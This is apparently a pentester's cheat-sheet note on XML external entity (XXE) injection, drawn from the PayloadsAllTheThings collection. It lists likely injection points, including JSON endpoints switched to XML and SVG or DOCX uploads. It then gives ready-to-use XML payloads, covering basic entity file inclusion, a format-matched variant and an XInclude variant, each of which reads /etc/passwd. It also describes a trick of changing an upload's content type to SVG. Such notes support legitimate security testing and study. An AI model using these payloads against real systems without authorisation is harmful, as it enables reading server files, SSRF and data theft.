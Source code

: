 [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)


**Check:**

- XXE if an application references XML formatted data.
- If you think an endpoint is only accepting JSON, try to switch to XML and check if the application still accepts it.
- SVG uploads (try even if the form says png only)
- DOCX uploads

**Potential impact**

- View files on target server
- SSRF
- Exfiltrate Data

**Basic payload** - file inclusion

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (\#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

**Ensure you’re following the applications expected format**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```

**File Upload**
Intercept image upload, change content type header, and file extension to svg
```
Content-Type: image/svg+xml
```
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-inside-svg](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-inside-svg)
![](../../../../assets/Pasted%20image%2020250629162451.png)

**Via XInclude**
Request is sending data in payload, we can potentially replace the data with XInclude to achieve file inclusion
Payload
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
![](../../../../assets/Pasted%20image%2020250629163247.png)